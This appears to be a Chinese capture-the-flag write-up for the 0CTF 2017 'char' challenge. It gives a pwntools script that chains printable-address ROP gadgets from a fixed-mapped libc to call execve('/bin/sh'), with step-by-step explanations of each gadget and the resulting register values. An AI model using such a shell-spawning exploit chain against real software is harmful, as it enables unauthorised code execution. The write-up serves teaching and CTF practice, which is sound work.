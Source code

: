 # 解析char-130

> 参考了[http://blog.dragonsector.pl/2017/03/0ctf-2017-char-shellcoding-132.html](http://blog.dragonsector.pl/2017/03/0ctf-2017-char-shellcoding-132.html)

> 主要解法

```python
from pwn import *

rop = "A" * 32          # <1>

# set ecx = 0
rop += p32(0x555f3555) # pop edx ; xor eax, eax ; pop edi ; ret <2>
rop += p32(0x41414141)
rop += p32(0x41414141)
rop += p32(0x556d2a51) # pop ecx ; add al, 0xa ; ret <3>
rop += p32(0x41414141)
rop += p32(0x55655b4c) # sub ecx, edx ; add esp, 0x4c ; mov eax, ecx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret  <4>
rop += "A" * 0x4c
rop += p32(0x41414141) * 4

# set eax = 0x5563704d (ret)
rop += p32(0x555f3555) # pop edx ; xor eax, eax ; pop edi ; ret  <5>
rop += p32(0x5563704d) # edx
rop += p32(0x41414141) # edi
rop += p32(0x555b3454) # mov eax, edx ; ret  <6>

# ebx = '...///////bin/sh'
rop += p32(0x55643026) # push eax ; push esp ; xor eax, eax ; pop ebx ; ret  <7>
rop += p32(0x556a3457) # xor eax, eax ; ret <8>
rop += p32(0x556c6864) # inc eax ; ret 0 <9>
rop += p32(0x556d2860) * 2 # add ah, al ; ret  <10>
rop += p32(0x55634e43) # add bh, ah ; ret <11>

# set edx = 0
rop += p32(0x55617940) # mov edx, 0xffffffff ; cmovne eax, edx ; ret <12>
rop += p32(0x555e7a4b) # inc edx ; add al, 0x5f ; ret  <13>

# esi = execve+0x23 0x55616603
rop += p32(0x55623c37) # pop esi ; ret  <14>
rop += p32(0x55616621) 
rop += p32(0x556f4237) * (0x21-0x3) # dec esi ; ret <15>
rop += p32(0x556e552c) # push esi; ret <16>

rop += "/" * 500 + "/bin/sh"
print('%s'%(rop))
```

## 破解方法
> 运行 python solve.py 输出的字符串。
> 再运行 LD_PRELOAD=/home/char/libc.so ./char （这里一定要把libc.so放到/home/char目录下面，这个是必须的）等到出现 GO )提示之后，把输出的字符串COPY，就可以了。

> 这里的难度在于几点：
*  反汇编了，看到有一个函数检查输入值。这里的输入值必须在 '!' 到'}' 之间，不能超过这些值，（这里面，因为空格是不能被scanf接受）
* 这里的栈上是不能执行代码的，所以，最后要想办法得到数据

> 但其实也有可以进行处理的内容的方便，
* 这里在开始把libc.so这个方便映射到了 0x5555e000 这样的地址，而且还把这个所有的地址变成了 PROT_EXEC|PROT_WRITE 的属性
* 这里可以有最多2400个字符。
* 这里的地址是固定的。可以用硬代码

## 解释代码
* <1> 这里的前面 32个'A' 是在strcpy 之后，会有一些对esp的调整，特别是ebp原来保存的内容，把栈调整，这里是给第一个返回值 0x555f3555 
* <2> 这个返回值，如果你用gdb来进行跟踪，就是进入了 pop edx ; xor eax, eax ; pop edi ; ret 汇编代码，这里如何来的，你想一下，前面mmap 了libc.so 到了0x5555e000，再用objdump -D libc.so ，查看了0x95554这里的代码，当然，实际处理是把前面一个0x75没有，就是运行上面的代码了。 这个之后的edx=0x41414141 edi=0x41414141 eax=0x0
* <3> 这个时候得到的 0x174a51 = 0x556d2a51 - 0x555e0000 的地址是 pop ecx;add al,10; ret ;ecx=0x41414141 eax=0xa
* <4> 这个时候得到 0xf7b4c = 0x55655b4c - 0x555e0000的地址是 sub ecx, edx ; add esp, 0x4c ; mov eax, ecx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret ;运行 ecx=0x0 , eax=0x0,ebx=0x41414141, esi=0x41414141, edi=0x41414141,ebp=0x41414141 这里前面填充0x4c*'A'就是处理 add esp,0x4c
* <5> 这个时候得到的 0x95555 = 0x555f3555 - 0x555e0000 的地址是 pop edx ; xor eax, eax ; pop edi ; ret 就是运行上面的代码了。 这个之后的edx=0x5563704d edi=0x41414141 eax=0x0
* <6> 这个时候得到的 0x55454 = 0x555b3454 - 0x555e0000 的地址是 mov eax, edx ; ret 就是运行上面的代码了。 这个之后的 eax=0x5563704d
* <7> 这个时候得到的 0xe5026 = 0x55643026 - 0x555e0000 的地址是 push eax ; push esp ; xor eax, eax ; pop ebx ; ret 就是运行上面的代码了。 这个之后的 eip=0x5563704d, eax=0x0,ebx=esp（这里代码注释中说是指向///..//bin/sh，但实际上是指向这个之前，因为这里我们还没有运行完毕，所以，这里的后面进行修正）这个指向的0x5563704d这个值是可以允许的ret值，所有这些其实关键是指向ebx=...////bin/sh
* <8> 这个时候得到的 0x145457 = 0x556a3457 - 0x555e0000 的地址是 xor eax, eax ; ret 就是运行上面的代码了。 这个之后的 eax=0x0
* <9> 这个时候得到的 0x168864 = 0x556c6864 - 0x555e0000 的地址是 inc eax ; ret 0 就是运行上面的代码了。 这个之后的 eax=1
* <10> 这里两次运行了代码 0x174860 = 0x556d2860 - 0x555e0000 的地址是 add ah, al ; ret 这个运行完毕 eax=0x201
* <11> 这里两次运行了代码 0xd6e43 = 0x55634e43 - 0x555e0000 的地址是 add bh, ah ; ret 这个运行完毕 ebx向高端移动了0x200的地址，刚才我们说了，这个值原来是指向地址的，这里是真的指向了...///bin/sh了，
* <12> 这个目的是把edx=0，因为后面要用到的
* <14> <15> 是调整esi的值，指向execve这里最后的调用代码mov eax,0bh;call gs:0x10 这里主要是原因是要调整指针，因为要满足前面的字符串条件，所以，要对这里进行调整，最后调用 execve("///bin/sh",NULL,NULL)这个调用成功

